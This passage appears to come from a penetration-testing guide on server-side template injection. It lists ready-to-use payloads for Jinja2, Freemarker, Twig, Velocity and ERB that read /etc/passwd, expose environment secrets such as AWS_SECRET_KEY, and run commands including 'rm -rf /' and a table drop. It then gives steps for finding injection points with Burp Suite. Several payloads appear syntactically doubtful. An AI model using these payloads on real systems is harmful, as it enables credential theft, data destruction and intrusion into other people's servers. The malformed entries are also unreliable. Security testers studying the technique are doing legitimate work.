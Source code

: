 - **File Access Payloads**:
  - Jinja2: `{{''.__class__.__mro__[1].__subclasses__()[407]('cat /etc/passwd', shell=True, stdout=-1).communicate()}}`
  - Freemarker: `<#include "/etc/passwd">`
  - Twig: `{{include('/etc/passwd')}}`
  - Velocity: `#set($x=$runtime.getClass().forName('java.io.File').newInstance('/etc/passwd').text)$x`

- **Environment Variable Exposure Payloads**:
  - Jinja2: `{{''.__class__.__mro__[1].__subclasses__()[407]('env', shell=True, stdout=-1).communicate()}}`
  - Freemarker: `${"java.lang.System"::getenv("AWS_SECRET_KEY")}`
  - Twig: `{{app.request.server.get('AWS_SECRET_KEY')}}`
  - ERB: `<%= ENV['AWS_SECRET_KEY'] %>`

- **Filter Bypass Payloads**:
  - Jinja2: `{{7*'7'}}` (Bypasses numeric filters, outputs `7777777`)
  - Twig: `{{'malicious'|filter('exec')}}` (Bypasses filter restrictions)
  - Freemarker: `<#assign x='malicious'?eval>${x}` (Evaluates string)
  - Velocity: `#set($x='malicious'$x)` (Dynamic evaluation)

- **Chained Attack Payloads**:
  - Jinja2 + XSS: `{{'<script>alert(1)</script>'|safe}}`
  - Freemarker + SSRF: `<#assign ex='freemarker.template.utility.Execute'?new()>${ex('curl http://internal:8080')}`
  - Twig + SQLi: `{{'1; DROP TABLE users'|execute}}`
  - ERB + Command Injection: `<%= system('whoami; rm -rf /') %>`

**Note**: Payloads are engine-specific (e.g., Jinja2, Twig). Identify the template engine first using basic payloads, then use targeted payloads. Test in query parameters, form fields, or JSON payloads where templates are processed.

### 1. Identify Template Injection Points

**Objective**: Locate inputs processed by server-side template engines.

**Steps**:
1. Browse the website:
   - Visit the target (e.g., `http://example.com`).
   - Identify forms, URLs, or APIs that display user input (e.g., user profiles, search results, error pages).
2. Capture requests with Burp Suite:
   - Enable Intercept (Proxy > Intercept > On).
   - Submit forms or click links to capture requests in HTTP History.
   - Note parameters (e.g., `name=test`, `query=search`).
3. Inspect responses:
   - Check for dynamic content or template syntax (e.g., `{{`, `${`).
   - Use Developer Tools (`Ctrl+Shift+I`) to analyze output.
4. List injection points:
   - Document query strings, form fields, headers, and JSON payloads.

**Example Injection Points**:
- URL: `http://example.com/profile?name=test`
- Form: `<input name="message">`
- API: `POST /api/render` with `{"template": "test"}`

